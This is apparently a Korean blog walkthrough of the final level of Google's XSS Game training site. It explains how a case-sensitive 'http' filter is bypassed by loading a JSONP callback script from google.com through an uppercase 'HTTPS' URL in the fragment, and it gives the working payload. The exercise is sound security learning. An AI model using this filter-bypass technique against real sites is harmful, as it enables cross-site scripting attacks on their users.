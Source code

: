script 소스코드를 살펴보니 아래와 같은 매커니즘으로 동작하고 있었다.  

1. URL에서 # 뒤의 값을 가져와 url 변수에 저장  
2. url 변수에서 https:// 형태의 값이 있는지 검사  
3. 만약 https:// 형태의 값이 있을 경우, Sorry, cannot load a URL containing "http" 출력하고 종료  
4. 필터링을 통과 할 경우 해당 url에 있는 script 코드를 그대로 load  

따라서 외부의 링크에서 악성 스크립트 코드를 생성 해 # 뒤에 넘겨주면 이를 그대로 실행 해 준다.  

이 때 `http://` 혹은 `https://`에는 필터링이 있으므로 외부의 악성 스크립트 코드 주소에서 해당 값은 없어야 한다.  

필터링을 하는 부분을 잘 살펴보면, 정규표현식의 형태로 되어있다.  

그런데 소문자에 대해서는 필터링이 있지만, http중 한 글자라도 대문자가 있으면 필터링에 걸리지 않는다.  

이에 외부의 링크에서 `alert` 창을 띄울 수 있는 script 코드를 구현한 후, `http` 대신 대문자로 `HTTP`를 사용 해 # 뒤에 넘겨주면 된다.  

먼저 `alert`를 띄울 수 있는 스크립트 코드를 `test.js`라는 이름으로 아래와 같이 구현했다.  

```js
alert(1);
```

이 후 # 뒤에 `HTTP://내서버의주소/test.js`를 전달 해 주었는데, 제대로 작동하지 않았다.  

`Sorry, I can't navigate the frame to that URL` 이라는 alert 창만 떴다.  

그래서 이 문제는 힌트를 참고하게 되었다.  

4번째 힌트를 보면 아래와 같은 내용이 있다.  

```
4. If you can't easily host your own evil JS file, see if google.com/jsapi?callback=foo will help you here.
```

힌트에 따라 `google.com/jsapi?callback=foo`에 접속 해 보았더니 코드가 있었다.  

그런데 하단에 아래와 같이 `foo()` 함수를 호출하는데, 이때 foo는 `callback`의 값으로 넘어간 값이었다.  

![]({{ site.baseurl }}/images/xssgame/xssgame_16.PNG)

이에 `foo` 대신 `alert`를 넘겨주면 소스코드의 하단에서 `foo();` 대신 `alert();`를 호출하지 않을까 싶어 `alert`를 넘겨주어 보았다.  

![]({{ site.baseurl }}/images/xssgame/xssgame_17.PNG)

예상대로 `alert();`를 호출하게 된다.  

이에 해당 URL에서 `http://`를 대문자로 바꾸어 문제의 # 뒤에 전달 해 주었다.  
```
http://xss-game.appspot.com/level6/frame#HTTPS://www.google.com/jsapi?callback=alert
```

그 결과 드디어 마지막 문제를 풀 수 있었다.  

![]({{ site.baseurl }}/images/xssgame/xssgame_18.PNG)

---  

이렇게 6단계의 문제를 모두 풀 수 있었다.  

![]({{ site.baseurl }}/images/xssgame/xssgame_19.PNG)
